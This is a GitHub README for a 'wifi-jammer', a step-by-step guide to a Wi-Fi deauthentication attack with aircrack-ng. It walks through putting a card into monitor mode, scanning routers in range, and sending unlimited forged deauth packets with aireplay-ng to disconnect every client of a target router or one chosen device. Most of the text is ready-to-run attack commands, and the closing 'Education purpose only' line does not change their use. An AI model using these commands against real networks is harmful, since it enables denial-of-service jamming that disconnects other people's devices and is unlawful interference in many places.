 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters. If you looking for an automated script head over to my another repo [here](https://github.com/mtm-x/wifijammer-script.git)
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)

```
sudo apt install aircrack-ng
```

# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![Screenshot_20240715_183247](https://github.com/user-attachments/assets/d5687b2f-ad30-4eb3-a068-455e6f43dde8)


In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range. Wait for some moments and once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this. Press `ctrl+c` to stop.

6. now run
```
iwconfig [your wifi card name in monitor mode] channel [routers channel here]
```
   `eg: iwconfig wlan0mon channel 2`

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```


The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


Press `ctrl+c` to stop.


Now most of the devices connected to the router 'victim' will be disconnected. Connected devices try to reconnect to the router 'victim' but again it will be disconnected. But some of the devices might not get disconnect from the wifi router( Samsung devices ). In this situations you can just do deauthenticate specific device alone rather then sending deauth packets the whole wifi router. For instance imagine 2 devices connected to the router Victim you can just send deauthentication packets to one device and knock that device from being connected to the router Victim.


For specific device attack just repeat from step 4 and make changes in the final 6th step as follows


```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] -c [DEVICES MAC ADDRESS] wlan0mon
```

Devices mac address can be found under the station coloumn. Bascially all the devices connceted to the wifi router Victim will be shown here. 

![Screenshot_20240715_180618](https://github.com/user-attachments/assets/f7dcb7ba-6850-4aa6-a745-9dfa3050d1c1)



## Managed Mode

After the attack put your wifi card in managed mode in order to use wifi in your pc 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






